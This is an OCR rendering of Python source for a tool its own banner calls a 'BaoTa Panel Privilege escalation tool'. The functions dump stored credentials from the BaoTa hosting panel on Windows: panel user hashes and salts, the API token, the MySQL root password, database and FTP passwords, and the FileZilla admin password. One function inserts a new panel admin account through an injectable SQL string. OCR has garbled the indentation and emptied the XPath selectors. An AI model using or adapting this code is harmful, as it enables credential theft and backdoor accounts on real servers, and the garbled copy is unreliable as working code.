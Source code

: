 ```
def get_all_user(self):
        cursor = self.c.execute('select username, password, salt from users')
return cursor.fetchall()

def get_api_information(self):
import json
        api_data = json.loads(self.read_file('C:/BtSoft/panel/config/api.json'))
if api_data['open']:
            token = api_data['token']
            limit_ip = api_data['limit_addr']
return f'Token：{token}, 限制IP：{limit_ip}'
else:
return '未开启api'

def get_mysql_root_password(self):
        cursor = self.c.execute('select mysql_root from config')
return cursor.fetchone()[0]

def insert_panel_user(self, username, password, salt):
        password = self.hash_password(password, salt)
try:
            sql = f"INSERT INTO users (username,password,salt,email) VALUES ('{username}', '{password}', '{salt}', 'admin@qq.com')"
            self.c.execute(sql)
            self.conn.commit()
return '写入成功！'
except sqlite3.OperationalError:
return '写入失败。'

def get_database_users(self):
        cursor = self.c.execute('select name, username, password, type from databases')
return cursor.fetchall()

def get_ftp_users(self):
        cursor = self.c.execute('select name, password from ftps')
return cursor.fetchall()

def get_filezilla_interface(self):
from xml.etree.ElementTree import fromstring
        ftp_xml = ''
try:
            ftp_xml = self.read_file('C:/BtSoft/ftpServer/FileZilla Server Interface.xml')
            root = fromstring(ftp_xml)
            server = root.findall('./Settings/Item[@]')[0].text
            port = root.findall('./Settings/Item[@]')[0].text
            password = root.findall('./Settings/Item[@]')[0].text
return f'已安装！\n{server}:{port} 密码：{password}'
except FileNotFoundError:
return '未安装Filezilla'


def banner():
    print('''  _____________________________________
/ BaoTa Panel Privilege escalation tool \\
\\ Author: https://github.com/Hzllaga    /
  -------------------------------------
         \\   ^__^ 
          \\  (oo)\\_______
             (__)\\       )\\/\\
                 ||----w |
                 ||     ||
    ''')

```